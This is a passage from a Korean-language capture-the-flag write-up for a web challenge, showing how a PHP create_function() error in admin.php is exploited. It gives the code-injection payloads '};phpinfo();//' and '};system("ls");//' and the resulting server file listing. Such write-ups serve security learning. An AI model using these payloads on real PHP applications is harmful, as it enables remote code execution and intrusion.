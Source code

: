             한번 더 아무런 값인 ``test``를 입력해보면

            ```php
            Deprecated: Function create_function() is deprecated in /var/www/html/admin.php on line 23

            Parse error: syntax error, unexpected '}' in /var/www/html/admin.php(23) : runtime-created function on line 1
            ```

            admin.php에서 ``create_function()`` 함수로 인해 에러나는것을 볼 수 있습니다.

+ #### 문제 풀이

    ``login.html`` 페이지를 이용하여 SQL Injection를 시도해보았지만 통하지 않는것을 보고

    ``admin.php``에서 에러에 나오는 ``create_function()``함수와 관련된 
    
    [PHP bug](https://bugs.php.net/bug.php?id=48231) 이와 같은 취약점이 존재하는것을 볼 수 있습니다.

    해당 페이지에 있는 페이로드를 이용하여 ``admin.php``에 ``};phpinfo();//`` 이러한 값을 주입하면

    ![PHP Info](/post-images/ShaktiCTF/2021/WEB/Magic/PHP-info.png)

    이렇게 ``phpinfo();`` 함수가 실행되는것을 볼 수 있습니다.

    해당 취약점을 이용하여 ``phpinfo();`` 함수 대신에 ``system("ls");`` 으로 주입할시에 의도한대로

    ```php
    Deprecated: Function create_function() is deprecated in /var/www/html/admin.php on line 23
    1 12345642312 1998_Dumb_secrets.php 2 Dockerfile a aaa aaaa admin.php asd bil.php c chat.html check.html css flag.html flag.php flag.txt fonts haclabor.txt index.html login.html lol.txt m.php myfile2.txt report.html rules.html s.php swag swag_shell.php t test.php testfile.txt testtest.html zaabi_ta7an.php
    ```

    ``};system("ls");//``
